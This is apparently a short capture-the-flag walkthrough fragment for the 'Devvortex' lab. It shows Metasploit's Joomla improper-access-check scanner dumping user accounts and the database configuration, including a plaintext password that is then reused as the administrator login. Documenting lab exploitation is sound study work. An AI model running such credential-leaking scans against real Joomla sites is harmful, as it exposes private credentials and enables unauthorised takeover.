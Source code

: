 ## msfconsole
With: **scanner/http/joomla_api_improper_access_checks**

```bash
ID   Super User  Name        Username  Email       Send Email  Register Da  Last Visit   Group Names  
                                                               te           Date  
--   ----------  ----        --------  -----       ----------  -----------  -----------  -----------  
649  *           lewis       lewis     lewis@devv  1           2023-09-25   2023-10-29   Super Users  
                                       ortex.htb               16:44:24     16:18:50  
650              logan paul  logan     logan@devv  0           2023-09-26                Registered  
                                       ortex.htb               19:15:42
```

```bash
Setting        Value  
-------        -----  
db encryption  0  
db host        localhost  
db name        joomla  
db password    P4ntherg0t1n5r3c0n##  
db prefix      sd4fg_  
db user        lewis  
dbtype         mysqli
```

Password for http://dev.devvortex.htb/administrator
User: lewis
Password: P4ntherg0t1n5r3c0n##  

